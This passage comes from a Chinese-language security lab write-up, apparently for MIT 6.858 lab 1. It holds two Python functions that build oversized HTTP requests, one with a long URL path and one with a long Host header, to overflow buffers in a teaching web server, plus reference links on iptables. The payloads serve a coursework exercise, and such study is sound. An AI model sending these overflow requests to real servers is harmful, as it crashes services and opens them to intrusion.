```python
def build_exploit(shellcode):
    req =   b"GET /"
    for i in range(5000):
        req = req + b"A"
    req = req + b" HTTP/1.0\r\n"
    req = req + b"\r\n"
    return req
```

overflow3

在http_request_header中同样调用了url_decode，这里传入的参数是value和sp，这里value的长度是512，而sp的长度是8192，和上面一样，但这里我们需要修改的内容是http报文头部。

```python
def build_exploit(shellcode):
    req =   b"GET / HTTP/1.0\r\n"
    req = req + b"HOST: "
    for i in range(2000):
        req += b"C"
    req += b"\r\n"
    req += b"\r\n"
    return req
```

checksec

## 参考链接

1. [信息安全课程11：防火墙（iptables/netfilter） - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/59923208)
2. [信息安全课程12：防火墙（netfilter/iptables） - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/61343421)
3. [iptables 从入门到应用 - FrankB - 博客园 (cnblogs.com)](https://www.cnblogs.com/frankb/p/7427944.html)
4. [使用iptables实现反向代理 - 简书 (jianshu.com)](https://www.jianshu.com/p/09200aa50be4)
5. [MIT 6.858: Computer Systems Security 计算机系统安全 实验1 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/258405554)
6. [信息安全 · see you again/ustc_sse_lesson - 码云 - 开源中国 (gitee.com)](https://gitee.com/fragile_xia/ustc_sse_lesson/tree/master/信息安全)
7. [实验三问答 · 语雀 (yuque.com)](https://www.yuque.com/docs/share/d62b73cc-e91f-419a-b06e-2db5e79bc0b3)

